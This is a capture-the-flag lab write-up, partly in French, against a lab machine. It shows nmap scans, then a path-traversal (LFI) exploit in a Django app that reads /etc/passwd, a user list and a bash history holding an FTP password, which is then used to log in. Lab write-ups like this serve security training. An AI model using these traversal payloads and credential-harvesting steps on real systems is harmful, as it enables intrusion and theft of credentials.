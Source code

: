 # recon
```
nmap -Pn -sVC -T4 $ip           
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-07 07:29 EST
Nmap scan report for 10.10.127.43 (10.10.127.43)
Host is up (0.088s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu L
| ssh-hostkey: 
|   2048 1a:8d:c6:0e:de:69:29:41:0d:50:e6:54:36:d0:13:1c (RSA)
|   256 89:ea:2c:42:6f:95:71:b8:ba:9a:3d:cb:f7:35:19:49 (ECDSA)
|_  256 fc:a2:bb:7e:92:2d:43:12:b1:66:ae:83:02:e9:6d:25 (ED25519)
80/tcp    open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
843/tcp   filtered unknown
20221/tcp open     ftp     vsftpd 3.0.3
```

```
nmap -Pn -T4 $ip -p- 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-07 07:39 EST
Warning: 10.10.127.43 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.127.43 (10.10.127.43)
Host is up (0.12s latency).
Not shown: 64012 closed tcp ports (conn-refused), 1519 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
1337/tcp  open  waste
20221/tcp open  unknown

```

## connect to http://10.10.127.43:1337/
Dans le chat on peut trouver le le chemin de userlist `/home/k1ller/userftp.txt`
http://10.10.127.43:1337/chat/home/k1ller/userftp.txt
```
404
Using the URLconf defined in DarkAtt4ck.urls, Django tried these URL patterns, in this order:
    secret_directory/
    operations_futures/
    operations_passees/
    chat/
The current path, chat/vdgb, didn’t match any of these.
```
On découvre un nouveau repertoire `secret_directory/`
# exploit
## LFI #Exploit_LFI 
http://10.10.127.43:1337/secret_directory/?doc=../../etc/passwd (ça passe)

http://10.10.127.43:1337/secret_directory/?doc=../../home/k1ller/userftp.txt
```
alpha01
shadowxx
k1ller
darkgod
```

## 
```
curl http://thm:1337/secret_directory/?doc=../../home/k1ller/.bash_history
```
	id
	ls -la
	whoami
	uname -a
	ftp k1ller@127.0.0.1:a02fb21da3e3f1c66a
	cat userftp.txt 
	exit

ftp pass = *a02fb21da3e3f1c66a*

## connect to ftp
```
ftp k1ller@thm -P 20221
```
